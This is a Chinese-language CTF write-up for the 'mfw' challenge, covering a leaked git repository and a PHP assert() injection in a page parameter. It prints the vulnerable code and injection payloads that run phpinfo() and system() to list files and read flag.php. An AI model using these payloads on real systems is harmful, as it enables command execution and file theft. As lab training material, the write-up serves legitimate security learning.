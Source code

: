 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      mfw    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-22         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```


打开环境

![Ub0qmQ.png](https://s1.ax1x.com/2020/07/22/Ub0qmQ.png)

分别看一下，

about:

```

About

I wrote this website all by myself in under a week!

I used:

    Git
    PHP
    Bootstrap


```

差不多就这么一个有用的。然后还发现url很可疑，`/?page=about`

这里看到git，猜测git源码泄露。

果然你,把源码下载下来。

![UbBoNR.png](https://s1.ax1x.com/2020/07/22/UbBoNR.png)

下载之后拿到源码，

这里有flag.php

![UbrJQf.png](https://s1.ax1x.com/2020/07/22/UbrJQf.png)

```
<?php
// TODO
// $FLAG = '';
?>

```

但是没flag，猜测需要前台读取。

index.php 代码审计：

```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

* `assert` — 检查一个断言是否为 FALSE.

 assert ( mixed $assertion [, Throwable $exception ] ) : bool

如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

* `strpos`— 查找字符串首次出现的位置.此函数可能返回布尔值 FALSE，但也可能返回等同于 FALSE 的非布尔值。
* `file_exists()` 函数检查文件或目录是否存在。

所以我们构造闭合。

`/?page=about') or phpinfo(); //`

页面成功回显phpinfo信息。

`?page=about') or system("ls ./templates"); //`

![UqEoPP.png](https://s1.ax1x.com/2020/07/23/UqEoPP.png)

`/?page=about') or system("cat './templates/flag.php'"); //`得到flag





